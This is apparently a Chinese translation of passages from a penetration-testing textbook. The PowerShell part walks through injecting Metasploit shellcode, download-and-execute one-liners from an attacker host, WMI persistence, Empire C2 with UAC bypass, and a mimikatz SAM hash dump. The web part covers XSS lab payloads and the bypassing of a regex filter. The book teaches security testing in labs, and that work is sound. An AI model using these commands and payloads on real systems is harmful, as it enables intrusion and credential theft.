PS C:\Users\User> Invoke-Shellcode -Shellcode <shellcode from msfvenom>
```

```
Injecting shellcode into the running PowerShell process!
Do you wish to carry out your evil plans?
[Y] Yes [N] No [S] Suspend [?] Help (default is "Y"): Y
```

我们启动 PowerShell 并加载我们的 Invoke-Shellcode 脚本。加载完成后，我们使用上一步复制的 shellcode 调用 Invoke-Shellcode。将其粘贴到 -Shellcode 选项后面时，系统会询问我们是否要执行邪恶计划。输入 Y 表示是，然后按 ENTER。在 Kali 窗口中，我们应该能看到一个连接回传和一个打开的 Meterpreter 会话：

```
[*] Started HTTPS reverse handler on https://192.168.1.92:8443
[*] Starting the payload handler...
[*] https://192.168.1.92:8443 handling request from 192.168.1.13; (UUID: zfnacnas)
Staging x64 payload (1190467 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.92:8443 -> 192.168.1.13:51635) at
2017-11-09 21:22:31 -0500
```

我们的会话已成功启动，并收到了回传，因此现在我们有了一种使用 PowerShell 启动 Metasploit shellcode 以获取交互式 shell 的方法。这很棒，但我们经常需要持久化。因此，我们需要想出一种可靠地执行代码的好方法。为此，我们将创建一个可运行并执行我们 shellcode 的单一命令。为简化此操作，我们将首先创建一个引导文件，其中包含我们注入 shellcode 所需的核心命令。将以下内容保存到 /var/www/html/bs.ps1：

```
iex(iwr -UseBasicParsing http://192.168.1.92/ps/CodeExecution/Invoke-Shellcode.ps1 )
Invoke-Shellcode -Force -shellcode <shellcode>
```

我们将 Metasploit 的 shellcode 放入 <shellcode> 部分，然后保存文件。请注意，我们向 Invoke-Shellcode 添加了 -Force 选项，因此它不会询问我们是否确定要执行有效载荷。接下来，我们将转到 Windows 机器并使用 PowerSploit 中的一个帮助器函数来创建我们的持久化。在 PowerShell 内，我们需要基于引导文件创建一个脚本块：

```
$sb = [ScriptBlock]::Create((New-Object Net.WebClient).downloadString("http://192.168.1.92/bs.ps1"))
```

脚本块创建完成后，现在我们需要创建持久化。为此，我们使用 PowerSploit 中的 Add-Persistence 函数。首先，我们需要加载 PowerSploit 的代码：

```
iex(iwr -UseBasicParsing http://192.168.1.92/ps/Persistence/Persistence.psm1)
```

创建持久化需要几个步骤。首先，我们需要决定希望持久化如何工作。在本示例中，我们使用 WMI，这样就不会在磁盘上留下文件。理想情况下，我们希望命令以 SYSTEM 身份运行，以便获得尽可能大的访问权限。我们还希望它在启动时运行，这样每当系统重新启动时，我们都能立即收到回传。在脚本块创建完成后，我们可以开始组装持久化选项：

```
PS C:\Users\User> $elev = New-ElevatedPersistenceOption -PermanentWMI -AtStartup
PS C:\Users\User> $user = New-UserPersistenceOption -ScheduledTask -OnIdle
PS C:\Users\User> Add-Persistence -ScriptBlock $sb -ElevatedPersistenceOption `
$elev -UserPersistenceOption $user -Verbose
VERBOSE: Persistence script written to C:\Users\User\Persistence.ps1
VERBOSE: Persistence removal script written to C:\Users\User\RemovePersistence.ps1
```

我们已将提权持久化设置为使用 WMI 并在启动时加载。接下来，我们需要指定在希望收到回传时的用户行为。理想情况下，我们不想暴露行迹，因此我们设置了一个新的持久化选项，在用户空闲时创建新会话。最后，我们使用 Add-Persistence 函数将所有这些组合在一起。

最后，我们需要运行持久化脚本。为此，我们不能使用 iwr，因为文件是本地的。相反，我们将使用 Get-Content 小命令获取数据，并使用 iex 执行它：

```
iex ( Get-Content -Raw .\Persistence.ps1 )
```

目录: C:\Users\User\Documents

| 模式 | 最后写入时间 | 长度 | 名称 |
|------|---------------|--------|------|
| d----- | 11/10/2017 5:15 AM | | WindowsPowerShell |

schtasks /Create /SC ONIDLE /I 1 /TN Updater /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonInteractive"

现在，为测试并确保脚本正常工作，我们必须重启 Windows 机器。显然，我们不想在生产环境中这样做，但在我们的虚拟环境中，这是一个查看工具工作原理的好测试。系统启动时，我们应该在 Metasploit 控制台中看到一个 shell。我们在此请求创建两种类型的持久化，每种都特定于用户上下文。当脚本以管理员身份运行时，它将使用 WMI；当以用户身份运行时，它将运行计划任务。这是因为普通用户没有创建 WMI 订阅的能力。


注意 如果重启后看不到 shell，可能是因为你不再拥有之前练习中的提权权限。你可以重新获得系统级权限，以便能够写入 WMI 订阅；或者，你可以等待你的“用户”用户变为空闲，并通过计划任务触发新 shell。

## 使用 PowerShell Empire 进行 C2

能够运行单个脚本固然不错，但对于现实世界中的渗透测试，拥有一个用于远程与 PowerShell 交互的综合框架效果更好。 Empire 正是派上用场的地方。Empire 以带有模块的框架形式为我们提供了 PowerSploit 的功能。它还遵循可定制的信标方法，因此你可以更好地隐藏与命令和控制（C2）的交互。在本节中，我们将设置一个基本的 C2，提升权限，并在 Empire 中添加持久化。

### 实验 15-8：设置 Empire

我们的第一步是从 GitHub 仓库克隆 Empire，如下所示。我们将在主目录中执行此操作，因为这些文件不需要从 Web 访问。

```
root@kali:~# git clone https://github.com/EmpireProject/Empire.git
Cloning into 'Empire'...
remote: Counting objects: 8505, done.
remote: Compressing objects: 100% (80/80), done.
remote: Total 8505 (delta 59), reused 52 (delta 26), pack-reused 8399
Receiving objects: 100% (8505/8505), 17.90 MiB | 9.42 MiB/s, done.
Resolving deltas: 100% (5646/5646), done.
root@kali:~# cd Empire/
```

现在我们已进入 Empire 目录，下一步是确保已安装所有先决条件。让我们运行 Empire 的设置脚本来安装所有先决条件：

```
root@kali:~/Empire# setup/install.sh
root@kali:~/Empire# service apache2 stop
```

设置完成后，我们可以只输入 .\empire 来运行 Empire。但首先，我们需要关闭 Apache，以便使用端口 80 进行通信。Empire 加载后，我们可以探索该框架。输入 help 将让你了解潜在命令的概览。

### 实验 15-9：部署 Empire C2

设置好 Empire 后，我们需要创建一个监听器，然后创建一个预加载器。预加载器使我们能够在目标系统上引导执行我们的 C2。监听器接收来自受攻陷系统的通信。我们针对特定通信协议设置特定的监听器。在本示例中，我们将使用基于 HTTP 的监听器，这样当 C2 连接回我们时，它看起来就像网页流量。

第一步是设置我们的监听器。为此，我们进入监听器菜单并选择 HTTP 监听器。然后，我们启用一些基本设置并执行监听器，如下所示：

```
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > execute
[*] Starting listener 'http'
[+] Listener successfully started!
```

监听器已启动后，我们的下一步是创建引导文件。为此，我们返回主菜单并选择一个预加载器，如下所示：

```
(Empire: listeners/http) > back
(Empire: listeners) > back
(Empire) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > generate
[*] Stager output written out to: /tmp/launcher.bat
```

我们为预加载器选择 windows/launcher_bat 模块。这将为我们提供一个 PowerShell 命令，可以将其复制并粘贴到目标系统上以启动我们的 C2。我们指定希望它连接回的监听器，最后生成文件。

### 实验 15-10：使用 Empire 获取系统控制权

在本实验中，我们部署我们的代理，然后着手进行权限提升和系统完全攻陷。我们的 /tmp/launcher.bat 文件有三行，我们需要第二行（我们的 PowerShell 命令）。让我们复制该行，然后在 Windows 主机上执行它：

```
C:\Users\User> start /b powershell -noP -sta -w 1 -enc SQBmACgAJABQAFMAVgB.......
```

这将启动我们的 PowerShell 有效载荷。在本示例中，编码的命令被截断了（你的会长得多）。不过，命令启动后，我们应该在 Empire 控制台中看到活动：

```
(Empire: stager/windows/launcher_bat) > [+] Initial agent 5CXZ94HP from 192.168.1.13 now active (Slack)
```

代理激活后，我们的下一步是与该代理交互，如下所示。请注意，代理是按名称指定的（在本例中为 5CXZ94HP）。

```
(Empire: agents) > interact 5CXZ94HP
(Empire: 5CXZ94HP) >
```

现在我们正在与代理交互，我们需要绕过用户帐户控制（UAC）环境，以便获得提权后的 shell。为此，我们运行 bypassuac 命令，它将为我们生成一个新的提权 shell 以供操作：

```
(Empire: 5CXZ94HP) > usemodule privesc/bypassuac
(Empire: powershell/privesc/bypassuac) > set Listener http
(Empire: powershell/privesc/bypassuac) > execute
[>] Module is not opsec safe, run? [y/N] y
(Empire: powershell/privesc/bypassuac) >
Job started: XGVHZF
[+] Initial agent 6GEC5UVM from 192.168.1.13 now active (Slack)
```

我们现在有一个新代理，应该具有提权权限。在 Windows 机器上，


你可能会看到一个提示，要求允许程序以管理员身份访问。是否这样做完全取决于目标系统上 UAC 的配置方式。我们可以通过输入 agents 并查找用户旁的星号（*）来验证我们是否拥有提升的权限 shell，这表示具有提升的权限：

```
(Empire: powershell/privesc/bypassuac) > agents

[*] Active agents:
```

| 名称 | 语言 | 内部 IP | 机器名 | 用户名 | 进程 | 延迟 | 最后出现 |
|------|------|-------------|--------------|----------|---------|-------|-----------|
| 5CXZ94HP | ps | 192.168.1.13 | DESKTOP-KRB3MSI | DESKTOP-KRB3MSI\User | powershell/6108 | 5/0.0 | 2017-11-10 03:04:05 |
| 6GEC5UVM | ps | 192.168.1.13 | DESKTOP-KRB3MSI | *DESKTOP-KRB3MSI\User | powershell/4004 | 5/0.0 | 2017-11-10 03:04:09 |

下一步是使用这些提升的权限成为 SYSTEM 用户。我们将执行 getsystem 模块来完成此操作：

```
(Empire: agents) > interact 6GEC5UVM
(Empire: 6GEC5UVM) > usemodule privesc/getsystem*
(Empire: powershell/privesc/getsystem) > execute
[>] Module is not opsec safe, run? [y/N] y
(Empire: powershell/privesc/getsystem) >
Running as: WORKGROUP\SYSTEM
```

现在我们以 SYSTEM 身份运行，可以从该机器上收集凭据。我们将使用 mimikatz 来完成此操作，类似于我们在 PowerSploit 部分所做的。我们将在凭据部分下执行 mimikatz/sam 模块来获取 SAM 转储，就像我们使用 PowerSploit 时所做的那样：

```
(Empire: powershell/privesc/getsystem) > usemodule powershell/credentials/mimikatz/sam
(Empire: powershell/credentials/mimikatz/sam) > execute
(Empire: powershell/credentials/mimikatz/sam) >
Job started: 4SCVZ7
Hostname: DESKTOP-KRB3MSI / S-1-5-21-3929919845-4074983535-3314702914
.####. mimikatz 2.1 (x64) built on Dec 11 2016 18:05:17
.## ^ ##. "A La Vie, A L'Amour"
## \ / ## /** */
## \ / ## Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
'## v ##' http://blog.gentilkiwi.com/mimikatz (oe.eo)
'######' with 20 modules * * */
mimikatz(powershell) # token::elevate
Token Id : 0
User name :
SID name : NT AUTHORITY\SYSTEM
604   34207   NT AUTHORITY\SYSTEM   S-1-5-18   (04g,21p)   Primary
-> Impersonated !
* Process Token : 1172717   DESKTOP-KRB3MSI\User   S-1-5-21-3929919845-4074983535-3314702914-1001   (18g,24p)   Primary
* Thread Token : 1203177   NT AUTHORITY\SYSTEM   S-1-5-18   (04g,21p)
   Impersonation (Delegation)

mimikatz(powershell) # lsadump::sam
Domain : DESKTOP-KRB3MSI
SysKey : a34b3d05aec244baf6e966715bd6b6c9
Local SID : S-1-5-21-3929919845-4074983535-3314702914

SAMKey : cb8862eacfc719e1cc72f3309745d07a

RID : 000001f4 (500)
User : Administrator
LM :
NTLM :

RID : 000001f5 (501)
User : Guest
LM :
NTLM :

RID : 000001f7 (503)
User : DefaultAccount
LM :
NTLM :

RID : 000003e9 (1001)
User : User
LM :
NTLM : 64f12cddaa88057e06a81b54e73b949b
```

我们现在有一个可以进行破解的 NTLM 哈希。下一步是添加持久化，以便在重启后重新建立连接。在 Empire 中这比在 PowerSploit 中简单得多。我们只需使用持久化模块并执行它：

```
(Empire: powershell/credentials/mimikatz/sam) >
usemodule powershell/persistence/elevated/wmi
(Empire: powershell/persistence/elevated/wmi) > set Listener http
(Empire: powershell/persistence/elevated/wmi) > execute
[>] Module is not opsec safe, run? [y/N] y
(Empire: powershell/persistence/elevated/wmi) >
WMI persistence established using listener http with OnStartup WMI subscription trigger.
```

我们现在已通过 WMI 设置了启动持久化，因此我们应该能够重启 Windows 机器并重新获得 shell。

## 摘要

PowerShell 是 Windows 系统上最强大的工具之一。在本章中，我们探讨了围绕运行 PowerShell 脚本的不同安全约束。我们还探讨了如何使用各种不同的技术绕过这些约束。

一旦你绕过这些限制，就可以使用 PowerSploit 和 PowerShell Empire 等其他框架。这些工具允许你在系统上获取额外访问权限、保持持久性并外发数据。

通过使用这些技术，你可以“利用现有资源”，这意味着你只使用目标系统上已有的内容。不需要额外的二进制文件。因为你的某些页面可能会被网络防病毒软件捕获，我们还探讨了如何规避签名以实现代码执行。最终，你将拥有在重启后保持持久性的代理，以及一系列用于在收集和外发数据的同时保持对目标系统访问权限的工具。

## 进一步阅读

- [PowerShell Empire 主页](www.powershellempire.com/)
- [PowerSploit 文档](http://powersploit.readthedocs.io/en/latest/)

## 参考文献

- 1. Matthew Dunwoody，“通过 PowerShell 日志获得更高可见性”，FireEye，2016 年 2 月 11 日，https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html。
- 2. Carrie Roberts，“如何绕过防病毒软件运行 Mimikatz”，Black Hills Information Security，2017 年 1 月 5 日，https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/.

## 第 16 章

## 下一代 Web 应用程序利用

Web 利用的基础知识在之前的版本以及网络上已有详尽介绍。然而，一些更高级的技术有点难以理解，因此在本章中，我们将探讨 2014 年至 2017 年期间登上头条的一些攻击技术。我们将深入研究这些技术，以更好地理解下一代 Web 攻击。

具体来说，本章涵盖以下主题：

- 跨站脚本（XSS）的演变
- 框架漏洞
- 填充甲醛攻击

### 跨站脚本（XSS）的演变

跨站脚本（XSS）是当今最被误解的 Web 漏洞之一。当有人提交代码而不是预期的输入，并且它更改了浏览器中 Web 应用程序的行为时，就会发生 XSS。从历史上看，这种漏洞曾被攻击者用作网络钓鱼活动和会话窃取攻击的一部分。随着应用程序变得更加复杂，过去与旧版应用程序一起有效的许多东西可能不再有效。然而，因为随着每种新技术，我们似乎都必须重新学习关于安全的同样教训，XSS 依然存在——只是变得更加难以利用。

传统上，此类漏洞通过一个简单的警告对话框来演示，显示代码已运行。由于这种相对良性的演示方式，许多组织不了解 XSS 的影响。使用诸如浏览器利用框架（BeEF）之类的框架以及更复杂的代码，XSS 可能导致从浏览器利用到数据窃取再到拒绝服务的各种后果。有些人使用浏览器挖掘加密货币，所有这些都可以通过 XSS 执行。

现在你了解了一些 XSS 的历史，让我们看看实际中的一些示例。在本章的这一部分中，我们将逐步讲解难度逐渐增加的 XSS 示例，以帮助你进一步理解 XSS 是什么，以及如何在当今的浏览器中与其交互。

### 设置环境

在本章中，我们将使用至少分配 4GB 内存给系统的 Kali 64 位版本。我们已经拥有所需的大部分软件，但为了更轻松地使用我们的环境，我们将安装一个名为 Docker 的 DevOps 工具，它可以让我们快速部署环境，几乎就像运行虚拟机（VM）一样。我们还将使用本书 GitHub 仓库中第 16 章区域的若干文件。

首先，克隆本书的 GitHub 仓库。现在我们需要设置 Docker。为此，以 root 身份运行第 16 章中的 setup_docker.sh 程序。这将在向 Kali 添加所需存储库后安装必要的软件包，然后配置 Docker 在重启时启动。这样，你在重启时就不需要处理 Docker 机制，而只需在启动或停止实例时处理即可。脚本完成后，一切都应已安装完毕，可以继续。

我们需要安装 Google Chrome，因此请在 Kali 浏览器中访问 [Google Chrome](https://www.google.com/chrome/browser/) 并下载 .deb 软件包。按以下方式安装 Chrome：

```
# dpkg -i google-chrome-stable_current_amd64.deb
Selecting previously unselected package google-chrome-stable.
(Reading database ... 351980 files and directories currently installed.)
Preparing to unpack google-chrome-stable_current_amd64.deb ...
Unpacking google-chrome-stable (61.0.3163.100-1) ...
```


注意 如果 Chrome 软件包安装出错，可能是由于依赖项问题。要修复该问题，请运行命令 apt --fix-broken install 并允许它安装先决条件。最后，你应该会看到 Chrome 安装成功。

接下来，我们需要为本章的 XSS 部分构建我们网站的 Docker 镜像。从第 16 章的 GitHub 仓库中，进入 XSS 目录，创建 Docker 镜像，然后运行它，如下所示：

```
root@kali:~/Ch16# cd XSS
root@kali:~/Ch16/XSS# docker build -t xss .
Sending build context to Docker daemon 3.393MB
Step 1/2 : FROM nimmis/apache-php5
---> 862dcaafdb11
Step 2/2 : ENV DEBIAN_FRONTEND noninteractive
---> Using cache
---> 47a723405265
Successfully built 47a723405265
Successfully tagged xss:latest
```

现在，运行 Docker：


root@kali:~/Ch16/XSS# docker run -p 80:80 -ti xss
*** open logfile
*** Run files in /etc/my_runonce/
<snipped for brevity>
*** Started processes via Supervisor......
apache2                            RUNNING   pid 17, uptime 0:00:04
crond                               RUNNING   pid 16, uptime 0:00:04
syslog-ng                           RUNNING   pid 15, uptime 0:00:04
```

您可以看到我们的 VM 现已运行，且 apache2 已启动。我们可以安全地保持此窗口不变，并继续进行 XSS 实验。

## 实验 16-1：XSS 复习

我们的第一个实验是对 XSS 工作原理的基础复习。从本质上讲，XSS 是一种注入攻击。在本例中，我们将向网页注入代码，以便由浏览器渲染。为什么浏览器会渲染这段代码？因为在许多 XSS 场景中，合法代码在哪里结束、攻击代码从哪里开始并不明显。因此，浏览器继续做它擅长的事情，渲染 XSS。

我们将使用 Firefox 开始本实验。撰写本文时，最新版本为 Firefox 56，因此如果由于内容被过滤而导致说明出现问题，请切换回较早版本的 Firefox。

访问 http://localhost/example1.html，您应该会看到图 16-1 所示的表单。这个简单的表单页面要求输入一些基本信息，然后将数据提交到 PHP 页面来处理结果。


## 图 16-1 实验 16-1 的表单

开始之前，让我们输入一些常规数据。姓名填 asdf，地址填 fdsa，然后单击 Register。您应该会看到以下响应：

```
You put in the data:
asdf
fdsa
Afghanistan
```

我们的下一步是使用一个字符串，帮助我们判断应用程序是否在过滤输入。当我们使用类似 asdf<"()>=asdf 的字符串并单击 Register 时，我们期望应用程序在将数据返回给我们之前，将其编码为 HTML 友好格式。如果没有，那么我们就有机会进行代码注入。请对 Full Name 和 Address 字段都使用上述字符串进行尝试。您应该会看到以下响应：

```
You put in the data:
asdf<"()>=asdf
asdf<"()>=asdf
Afghanistan
```

浏览器返回了您输入的相同字符串，但这只说明了问题的一部分。通常，事情看起来可能没问题，但当您查看页面的 HTML 源代码时，情况可能大不相同。在 Firefox 窗口中，按 CTRL-U 以显示页面的源代码。当我们查看源代码时，会看到以下内容：

```
<HTML><BODY>
<PRE>
You put in the data:
asdf<"()>=asdf
asdf<"()>=asdf
Afghanistan
</PRE>
</BODY>
</HTML>
```

在这里，我们可以看到没有任何字符被转义。相反，这些字符串被直接放回 HTML 文档的正文中。这表明该页面可能可注入。在安全性良好的应用程序中，< 和 > 字符应分别转义为 &gt; 和 &lt。这是因为 HTML 标签使用这些字符，因此如果未对其进行过滤，我们就有机会插入自己的 HTML。

既然看起来我们可以注入 HTML 代码，下一步是尝试一个真实示例。一个简单的示例可以对注入提供即时的可视响应，即弹出警告框。在本示例中，在 Full Name 字段中输入 <script>alert(1)</script>。如果成功，这会导致一个带有 "1" 的警告框弹出。仅对 Full Name 使用该字符串；您可以在 Address 字段中输入任何喜欢的内容。单击 Register 时，您应该会看到类似图 16-2 中的框弹出。


## 图 16-2 我们成功弹出的警告框

成功！这在 Firefox 中效果很好，但 Firefox 在创建 XSS 过滤器以保护用户方面并没有投入太多精力。Internet Explorer (IE) 和 Chrome 都有过滤器，用于捕获一些基本的 XSS 技术并将其阻止，以免影响用户。

要运行 Chrome，请输入以下内容：

```
# google-chrome --no-sandbox
```

我们必须添加 --no-sandbox 指令，因为 Chrome 试图防止浏览器以 root 身份运行，以保护系统。Chrome 启动时，点击跳过弹出窗口，然后再次尝试本实验中的步骤。这次，我们得到的响应大不相同。图 16-3 显示 Chrome 已阻止我们的简单 XSS。


## 图 16-3 我们的 XSS 被 Chrome 阻止

乍一看，图 16-3 中显示的屏幕看起来像是一个普通的页面加载错误。但是，请注意错误消息 "ERR_BLOCKED_BY_XSS_AUDITOR"。XSS Auditor 是 Chrome 的一项功能，可帮助保护用户免受 XSS 攻击。尽管本示例未奏效，但执行 XSS 攻击有多种方法。在接下来的实验中，我们将看到一些逐渐困难的示例，并开始研究针对这类技术的绕过技术。

## 实验 16-2：来自互联网智慧的 XSS 绕过

许多人在第一次接触 XSS 漏洞时，会上网查找如何防御 XSS 攻击的信息。幸运的是，这些建议往往不完整。这对我们来说很棒，但对应用程序所有者来说却不太好。在本实验中，我们将查看一个具有非常基础防护措施的 PHP 页面。

在上一章中，我们讨论了转义特殊字符。在 PHP 中，这是通过 htmlspecialchars 函数完成的。该函数获取不安全的 HTML 字符，并将其转换为编码版本以便正确显示。让我们先看看在新环境中，我们上一个实验中的标记是如何被处理的。

在 Firefox 中访问 http://localhost/example2.php，您应该会看到一个与上一个实验类似的表单。为了查看应用程序的行为，我们想看到一个成功条件。将姓名设为 asdf，地址设为 fdsa，然后单击 Register。您应该会看到以下输出：

```
You entered
asdf
fdsa
United States of America
```

这看起来符合我们的预期。当我们之前尝试标记时，得到了一个警告框。现在让我们看看是什么样子。再次提交页面，将姓名和地址都设为 asdf<"()>=asdf。图 16-4 显示页面返回后出现了一些细微变化。首先，建议示例输入的行是加粗的。其次，我们提交的数据只有一部分被填充回文档中显示。


## 图 16-4 使用 Firefox 带 XSS 标记提交

为了查看实际发生了什么，请再次按 CTRL-U 查看源代码。当我们查看代码时，想要找到我们的标记，以查看数据被放在了哪里。因此，使用 CTRL-F 搜索短语 "asdf"。您应该会看到类似以下的文本：

```
<DIV class="col-sm-9">
<INPUT type="text" id="name" name="name" placeholder=
'asdf&lt;';&quot;()=&gt;asdf' class="form-control" autofocus="" >
<SPAN class=
"help-block"><B>Last
Name, First Name, eg.: Smith, John</SPAN>
```

您会注意到字符串中的某些字符已被更改。大于号和小于号以及引号字符已被替换为用于呈现它们的 HTML 代码。在某些情况下，这可能足以阻止攻击者，但这里有一个字符没有被过滤——单引号 (') 字符。当我们查看代码时，可以看到 INPUT 框中的 placeholder 字段也使用了单引号。这就是为什么在我们的输出页面中数据被截断的原因。

为了利用此页面，我们必须想出一种方法，在不使用 HTML 标签或双引号的情况下注入可由浏览器渲染的代码。不过，既然知道 placeholder 使用单引号，也许我们可以修改输入字段来运行代码。做到这一点最常见的方法之一是使用事件。文档加载时，会有许多事件在不同位置触发。

对于 INPUT 字段，事件数量要少得多，但这里可能有帮助的有三个：onChange、onFocus 和 onBlur。onChange 在 INPUT 块的值更改时触发。onFocus 和 onBlur 分别在字段被选中以及有人离开字段时触发。在下一个示例中，让我们看看如何使用 onBlur 来执行我们的警告消息。

对于姓名，输入 ' onFocus='alert(1)，对于地址，输入 asdf。单击 Register 时，会打印出提交到表单的内容输出。这并不是我们真正想要的，但让我们看看输入是否有任何更改：

```
You entered<BR>' onFocus='alert(1)<BR>asdf<BR>United States of America<BR>
```

输入根本没有被更改，因此如果我们能添加另一个元素，这段代码可能会奏效。这次，对 Full Name 字段使用与之前相同的输入，对 Address 字段使用 >asdf 而不是 asdf。单击 Register 时，您应该会看到警告框弹出并显示数字 1。单击 OK，然后查看文档源代码中的代码并搜索 "alert"：

```
<INPUT type="text" id="name" name="name" placeholder=
'' onFocus='alert(1)' class="form-control" autofocus="" >
<SPAN class=
"help-block">Last
Name, First Name, eg.: Smith, John</SPAN>
```

我们在这里看到，我们使用的开始单引号关闭了 placeholder 字段，然后在输入块内部创建了一个名为 onFocus 的新字段。事件的内容是我们的警告对话框，然后我们看到结束引号。我们在字符串中没有使用结束引号，但这是 placeholder 初始字段的一部分，因此当我们不在字符串中添加它时，我们利用的是我们的字符串后面会追加一个单引号的知识。如果


如果我们在字符串末尾放置了一个单引号，那么在呈现时它将是无效的 HTML，我们的代码也不会执行。

让我们来看看在 Chrome 中的相同情况。当我们提交相同的值时，我们发现输入再次被 XSS Auditor 拦截。我们正在看到一种趋势。尽管 Chrome 用户可能受到保护，但其他类型的用户可能不会，因此使用像 Firefox 这样宽松的浏览器进行测试可以帮助我们成功识别漏洞。

## Lab 16-3: 使用 XSS 更改应用程序逻辑

在之前的实验中，网页非常简单。现代 Web 应用程序大量使用 JavaScript，大部分应用程序逻辑直接内置在页面本身中，而不是后端。这些页面使用诸如 Asynchronous JavaScript (AJAX) 之类的技术提交数据。它们通过操纵文档对象模型 (Document Object Model, DOM) 中的区域来更改内容，DOM 是 Web 浏览器内定义文档的对象。

这意味着可以添加新的对话框，刷新页面内容，暴露不同的图层，以及更多功能。Web 应用程序正在成为应用程序的默认格式，因为二进制应用程序正在向 Web 过渡。对网站全功能的这种追求创造了许多疏忽的机会。在这个示例中，我们将查看一个使用 JQuery（一个流行的 JavaScript 库）来与我们的后端服务交互的应用程序。

对于此实验，使用 Firefox 加载页面 http://localhost/example3.html。这个页面看起来和其他的一样，但当我们提交数据时，数据不会被发送到提交页面，而是会显示一个包含提交内容和状态的弹出窗口。再次尝试，分别为名称和地址使用值 asdf 和 fdsa。图 16-5 显示了输出。


图 16-5 Lab 16-3 的成功提交

现在将名称更改为我们的标记 asdf<"()=>asdf，并将地址保留为 fdsa。当我们提交这些值时，我们会看到一条失败消息。我们可以在此停止，因为他们拦截了我们的标记，但那样没什么意思。当我们像之前的示例一样查看页面源代码时，我们完全看不到我们的标记。

这里发生的情况是页面已被 JavaScript 修改，因此我们输入的内容从未作为源代码的一部分加载。相反，它被添加到了 DOM 中。不幸的是，我们的旧技巧无法用于判断此页面是否存在漏洞，因此我们必须转向一些新工具。

Firefox 内置了一套开发者工具，可以帮助我们查看当前渲染文档正在做什么。要访问开发者工具，请按 CTRL-SHIFT-I。窗口底部应该会弹出一个带有多个选项卡的框。Inspector 选项卡允许我们查看渲染后的 HTML。单击该选项卡，然后使用 CTRL-F 查找字符串 "asdf"。图 16-6 显示了我们在开发者工具 Inspector 窗口中的代码。


图 16-6 在开发者工具中查看代码

我们的字符串似乎未经修改就进入了对话框。这太好了，因为我们在 Lab 16-1 中使用的相同技巧在这里也有效。让我们回去尝试在 Lab 16-1 中用于名称的相同内容：<script>alert(1)</script>。当我们提交这个值时，我们会看到一个显示 1 的警告框，因此我们的代码成功运行。当我们关闭警告框时，我们会看到失败消息，当我们返回 Inspector 选项卡并搜索 "alert" 时，我们可以清楚地在渲染后的 HTML 源代码中看到它。

在实施新技术时，通常不会吸收以前失败的知识，因此旧漏洞经常在新技术中重新出现。要查看此攻击在 Chrome 中的表现，让我们再次使用相同的输入来尝试。

当你在 Chrome 中运行此攻击时，你应该会看到类似图 16-7 的警告框，表明我们的代码已运行。XSS Auditor 在页面加载时检查方面很出色，但动态加载的内容经常会证明难以捉摸。我们在两种浏览器中都能够呈现一个非常简单的 XSS 字符串。这突出了这样一个事实：当一个约束阻止在某个浏览器中利用页面时，其他浏览器可能仍然易受攻击——并且可能存在绕过过滤技术的规避技术。简单来说，如果你知道一个页面易受 XSS 攻击，请修复它；不要依赖浏览器来保护你的用户安全。


图 16-7 在 Chrome 中利用 example3.html

## Lab 16-4: 使用 DOM 进行 XSS 攻击

在之前的实验中，我们使用了一些非常基本的技巧来执行 XSS。然而，在更安全的应用程序中，通常还需要绕过更多内容。对于此实验，我们将查看同一个应用程序，但带有额外的检查和对策。Web 应用程序通常会有数据验证函数，而击败它们有三种方法：修改代码以删除检查，不通过 JavaScript 直接提交到目标页面，以及找出如何绕过代码。由于我们正在谈论 XSS，让我们看看如何绕过过滤器。

首先，让我们尝试在页面 http://localhost/example4.html 上使用之前实验中的相同策略。当我们在 Firefox 中加载页面时，乍一看它看起来和其他的一样，因此我们需要弄清楚在这个新版本中成功和错误条件是什么样子。对于成功条件，再次输入 asdf 和 fdsa。当你单击 Register 时，你会看到一条成功消息，表明我们的内容有效。现在让我们尝试在 Full Name 字段中插入一个脚本标签。为名称输入 <script>，为地址输入 fdsa。现在你应该会看到我们的错误条件。请记下错误消息，因为我们需要它来跟踪在 JavaScript 中我们是如何到达那个点的。要做到这一点，请在 Firefox 中按 CTRL-U 查看源代码。然后搜索短语 “Please Try”。返回的代码块如下：

```javascript
$("#registerForm").submit(function(event) {
  ①event.preventDefault();

  var data = { };
  data = $(this).serialize() ;
  ②var arr = $(this).serializeArray();
  for(var i = 0; i < arr.length; i++)
  {
    ③if(checkXSS(arr[i].value)) {
      $("#my-msgbox").html("Invalid input, found XSS<br>Please Try again");
      $("#my-header").html("ERROR!!!!!");
      x$("#success-modal").modal('toggle');
      return false;
    }
  }
}
```

发现错误的这个代码块是提交表单时发生的 JQuery 事件的一部分。函数中的第一行防止表单正常提交 u，这意味着这个函数处理表单的数据提交。接下来我们看到提交的数据正在被转换为数组 v。这个数组用于遍历表单提交中的每个项目。

checkXSS w 函数会针对数组中的每个项目运行，如果返回 true，我们的错误消息就会被打印。消息框的标题和正文会被更新，然后消息框被打开 x。这明显是导致带有我们错误的弹出框的代码。不幸的是，我们不知道 checkXSS 如何评估我们输入的内容，所以让我们接下来看看它。当我们在代码中搜索 checkXSS 时，我们找到了我们代码块的函数定义：

```javascript
function checkXSS(val)
{
  ⑤var regexes = [
    z/alert\//,
    /eval\//,
    /fromCharCode/,
    /onChange/,
    /onFocus/,
    /<.*?>/ ];
  for(var i = 0; i < regexes.length; i++)
  {
    if(val.match(regexes[i]))
    {
      return true;
    }
  }
  return false;
}
```

checkXSS 函数具有一个正则表达式 y 列表，用于检查输入。我们想尝试再次弹出警告框，但 alert 函数 z 被阻止了。我们也不能注入 HTML 标签，因为任何以 < 或 > 字符开头或结尾的内容都被阻止了 {。因此，当数据提交时，会检查每个正则表达式，如果有任何匹配项，则返回 true。该函数的作者试图阻止 JavaScript 和 HTML 标签中最具影响力的功能。

为了找出如何绕过这个问题，值得查看成功消息是如何打印到屏幕上的。了解字符串是如何构建的将帮助我们找出如何绕过其中的一些保护。

```javascript
$.ajax({
    type: "POST",
    dataType: "json",
    url: "example3.php",
    data: data,
    success: function(data) {
7    var string = "Your registration of " +
    data["name"] + "<BR>" + data["address"] + "<BR>" + data["country"] +
    "<BR>was successful.";
```

